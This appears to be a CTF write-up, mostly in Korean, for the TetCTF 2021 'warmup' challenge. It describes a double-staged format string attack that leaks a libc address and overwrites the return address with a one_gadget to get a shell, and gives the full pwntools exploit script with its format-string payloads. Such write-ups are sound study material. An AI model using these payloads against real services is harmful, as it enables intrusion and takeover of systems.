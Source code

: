 ```yaml
---
layout: post
title: TetCTF 2021 warmup write-up
categories: ctf-write-up
tags: [ctf]
---
```



## warmup

현재 올라와있는 write-up과 주변 지인이 푼 방법을 들었을 때 아마 이 풀이는 `unintended solution` 일 것이다. 처음에 팀원이 이 문제를 보고 있다고해서 다른 문제를 보고있었는데 fsb가 발생하는 부분이 있다고 해서 그 부분만 이용해서 풀었다.



일단 더블스테이지를 이용하여 stack의 ret주소를 main함수로 변경하면서 libc_start_main_ret 주소를 leak한다. 이 과정에서 약간의 스택 주소에 대한 브포가 필요하다.



그 이후 스택을 가리키는 포인터 2개를 이용하여 ret 주소를 one_gadget 주소로 수정하면 된다. 이때 주의할 점은 스택을 가리키는 포인터를 이용할 경우 SFP가 변조되어 ret를 수정하더라도 다른 주소로 이동하게 된다.

따라서 SFP를 변조하여 ret를 수정한 이후에 다시 SFP를 원래 값으로 복원해주어야 하며 이 과정에서 약간의 브포가 필요하다.



대략 익스플로잇의 확률은 1/256 정도 되는거 같다. 문제를 50분정도 늦게 봐서 2분차이로 세컨드 솔브,,



요약 (Summary)
1. Using `double staged fsb`, change the return address of the stack to **main** and leak the **libc_start_main_ret** address.
   - a little brute forcing
2. Using `double staged fsb`, change the return address of the stack to **one_gadget**
3. Restore the `SFP`  
   - SFP should be changed when changing the return address of the stack.
   - When the SFP changes, it moves to a different address
   - a little brute forcing

```python
from pwn import * 

e = ELF('./warmup')
libc = e.libc

while True:
    #p = process('./warmup', env={'LD_PRELOAD':'./libc-2.23.so'})
    p = remote("192.46.228.70", 32337)

    # stage 1
    payload = ''
    payload += '%c' * 18
    payload += '%{}c'.format(0x88 - 18)
    payload += '%hhn'
    payload += '%{}c'.format(0xaa-0x88)
    payload += '%26$hhn'
    payload += '%29$p'

    p.sendlineafter('? ', '0')
    p.sendlineafter(': ', payload)

    p.recvuntil('0x')
    leak = int(p.recv(12), 16)
    libc_base = leak - libc.sym['__libc_start_main'] - 240

    print hex(libc_base)

    p.sendlineafter('Your bet (= 0 to exit): ','0')

    try:
        p.sendlineafter('Send to author your feeback: ', '0')
    except:
        p.close()
        continue

    one_gadget = libc_base + 0x45226

    try:
        p.sendlineafter('? ', '0')
    except:
        p.close()
        continue

    # stage 2
    payload = ''
    payload += '%c' * 8
    payload += '%{}c'.format(0x98 - 8)
    payload += '%hhn'
    payload += '%c' * 8
    payload += '%{}c'.format(0x199 - 0x98 - 8)
    payload += '%hhn'
    payload += '%{}c'.format(0x100 + (one_gadget & 0xff) - 0x99)
    payload += '%hhn'
    payload += '%{}c'.format(((one_gadget >> 8) & 0xffff) - (one_gadget & 0xff) - 0x200)
    payload += '%26$hn'

    # stage 3 (sfp restoration)
    payload += '%{}c'.format(0x178 - 0xd2)
    payload += '%10$hhn' # 78
    payload += '%{}c'.format(0x88 - 0x78)
    payload += '%20$hhn' # 88

    print hex(one_gadget)
    p.sendlineafter(': ', payload)

    p.sendlineafter('Your bet (= 0 to exit): ','0')
    p.sendlineafter('Send to author your feeback: ', '0')
    p.interactive()
```

